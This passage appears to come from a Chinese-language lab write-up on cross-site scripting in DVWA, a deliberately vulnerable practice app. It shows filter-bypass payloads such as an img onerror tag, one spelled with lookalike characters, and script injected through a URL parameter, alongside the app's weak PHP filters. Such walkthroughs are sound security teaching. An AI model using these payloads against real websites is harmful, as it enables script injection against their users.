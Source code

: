 ```shell
`<img src=1 οnerrοr=alert(1)>`
```

###### DVWA-high

高和中比较发现采用正则表达式对script进行过滤了；但可尝试使用其他标签<img>等

![image-20200901135011353](/images/XSS/image-20200901135011353.png)

```html
`<img src=1 onerror=alert(1)>`
```

![image-20200901140548264](/images/XSS/image-20200901140548264.png)

![image-20200901140610422](/images/XSS/image-20200901140610422.png)

#### DOM型

##### DVWA-low

low版本不存在任何显示，default参数值设置为payload。

```php+HTML
<?php
# No protections, anything goes
?>
```

![image-20200901142115894](/images/XSS/image-20200901142115894.png)

```shell
`<option value="%3Cscript%3Ealert(%27xss%27)%3C/script%3E"><script>alert('xss')</script>
</option>`
# script标签及值放在option标签内<dom树执行结果>
```

##### DVWA-Medium

中级出现了对值<script进行判断

```php+HTML
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
	$default = $_GET['default'];
	
	# Do not allow script tags
	if (stripos ($default, "<script") !== false) {
		header ("location: ?default=English");
		exit;
	}
}
?>
```
